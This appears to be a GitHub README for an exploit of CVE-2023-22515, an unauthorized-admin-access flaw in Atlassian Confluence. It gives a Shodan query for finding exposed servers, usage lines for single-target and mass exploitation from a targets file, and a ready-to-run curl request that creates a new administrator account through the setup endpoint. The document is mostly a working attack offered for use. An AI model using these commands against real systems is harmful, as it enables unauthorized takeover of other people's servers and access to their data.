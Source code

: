 # CVE-2023-22515

![](https://img.shields.io/static/v1?label=Product&message=Atlassian%20Confluence&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=Confluence%20Data%20Center%20and%20Server&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%2010.%20Unauthorized%20Admin%20Access&color=red)

- Shodan dork:
```
http.favicon.hash:-305179312
```

### Install
```
pip install -r requirements.txt
```

### Usage

```
python3 exploit.py normal https://example.com/confluence
```

```
python3 exploit.py mass targets.txt
```
### Curl POC
```
curl -k -X POST -H "X-Atlassian-Token: no-check" --data-raw "username=YourNewAdminLogin&fullName=admin&email=admin@confluence&password=YourNewAdminPass&confirm=YourNewAdminPass&setup-next-button=Next" http://URL/confluence/setup/setupadministrator.action
```
```
Login: YourNewAdminLogin
Pass:  YourNewAdminPass
```
